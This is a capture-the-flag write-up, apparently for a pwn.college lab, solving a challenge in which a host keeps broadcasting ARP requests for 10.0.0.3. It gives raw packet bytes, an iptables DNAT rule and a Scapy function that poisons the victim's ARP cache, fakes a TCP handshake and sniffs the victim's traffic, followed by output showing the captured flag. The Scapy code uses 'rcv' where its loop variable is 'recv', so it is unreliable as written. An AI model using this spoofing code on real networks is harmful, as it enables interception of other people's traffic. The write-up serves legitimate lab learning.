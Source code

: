 # Problem statement:
Configure your network interface. The remote host at 10.0.0.2 is trying to communicate with the remote host at 10.0.0.3 on port 31337.

## Observations:
10.0.0.2 is constantly sending ARP who-has 10.0.0.3 packets to the broadcast phyisical address
 - tcpdump -i eth0 arp ; wireshark; scapy > sniff(filter="arp", prn=lambda x: x.summary())...

Since we can see constant who-has packets being sent, we know no one is responding. So the straight-forward way to do this is just assigning the IP to ourselves
and letting the OS take care of the rest.

However, the fun part of this challenge is to learn to use Scapy to craft packets from scratch at a byte level and also using the functionality provided to make 
our lives easier.

## Solutions:
### Solution 1: Assign IP to our NIC
- `# ip addr add 10.0.0.3/24 dev eth0`

### Solution 2: Handcrafted ARP is-at packet + iptables DNAT jump
https://cs.newpaltz.edu/~easwarac/CCN/Week13/ARP.pdf

>>> pkt_raw = b'\x82\x81\xEE\xE3\x3A\x07\xb2\xad\x5d\x90\x1f\x76\x08\x06\x00\x01
                \x08\x00\x06\x04\x00\x02\xb2\xad\x5d\x90\x1f\x76\x0a\x00\x00\x03
                \x82\x81\xEE\xE3\x3A\x07\x0a\x00\x00\x02'
>>> sendp(Ether(pkt_raw), iface="eth0", verbose=True)

- `# iptables -t nat -A PREROUTING -d 10.0.0.3 -p tcp --dport 31337 -j DNAT --to-destination 10.0.0.1:31337`

### Solution 3: Scapy only
    def ARP_Spoof(src_ip, dst_ip, iface="eth0"):
        my_mac = get_if_hwaddr(iface)
        # Send ARP who-has 10.0.0.2 to broadcast phyisical address
        resp, _ = srp(Ether(dst = "ff:ff:ff:ff:ff:ff")/ARP(pdst = src_ip), timeout = 2, iface = "eth0", retry = 10)
        src_mac = ''
        for _, recv in resp:
            src_mac = rcv.sprintf(r"%Ether.src%")
            if(len(src_mac) > 1): break
        print(f"\n * Poisoning ARP cache of victim {src_ip} with HW address {src_mac}")

        # Craft ARP is-at packet to send to victim, impersonating 10.0.0.3
        is_at = Ether(dst=src_mac, src=my_mac, type=0x0806) / ARP(hwlen=6, plen=4, op=2, hwsrc=my_mac, psrc=dst_ip, hwdst=src_mac, pdst=src_ip)
        sendp(is_at, iface=iface)

        print("\n * Establishing TCP connection with victim")
        syn = sniff(iface=iface, filter="tcp[tcpflags] & (tcp-syn) != 0 and src " + src_ip + " and dst " + dst_ip, count=1)[0]
        syn_ack = Ether(src=my_mac, dst=src_mac) / IP(src=dst_ip, dst=src_ip) / TCP(sport=syn[TCP].dport, dport=syn[TCP].sport, flags="SA", seq=1337, ack=syn[TCP].seq + 1)
        resp, _ = srp(syn_ack)
        # skip ack from 10.0.0.2
        # read tcp traffic from 10.0.0.2 to 10.0.0.3
        sniff(iface=iface, filter="tcp and src " + src_ip + " and dst " + dst_ip, prn=lambda x: x[Raw].load if x.haslayer(Raw) else x.summary())

`>>> ARP_Spoof("10.0.0.2", "10.0.0.3")`
#### Output:
Begin emission

Finished sending 1 packets

Received 1 packets, got 1 answers, remaining 0 packets

 Poisoning ARP cache of victim 10.0.0.2 with HW address 1e:4a:b3:90:f3:e6

Sent 1 packets.

 Establishing TCP connection with victim
Begin emission

Finished sending 1 packets

Received 2 packets, got 1 answers, remaining 0 packets

Ether / IP / TCP 10.0.0.2:39972 > 10.0.0.3:31337 S

Ether / IP / TCP 10.0.0.2:39972 > 10.0.0.3:31337 S

Ether / IP / TCP 10.0.0.2:39972 > 10.0.0.3:31337 S

b'pwn.college{FLAG}\n'

Ether / IP / TCP 10.0.0.2:39972 > 10.0.0.3:31337 S

Ether / IP / TCP 10.0.0.2:39972 > 10.0.0.3:31337 S

Ether / IP / TCP 10.0.0.2:39972 > 10.0.0.3:31337 S

b'pwn.college{FLAG}\n'

Ether / IP / TCP 10.0.0.2:39048 > 10.0.0.3:31337 S

Ether / IP / TCP 10.0.0.2:39048 > 10.0.0.3:31337 S

b'pwn.college{FLAG}\n'

Ether / IP / TCP 10.0.0.2:39048 > 10.0.0.3:31337 S

Ether / IP / TCP 10.0.0.2:39048 > 10.0.0.3:31337 S
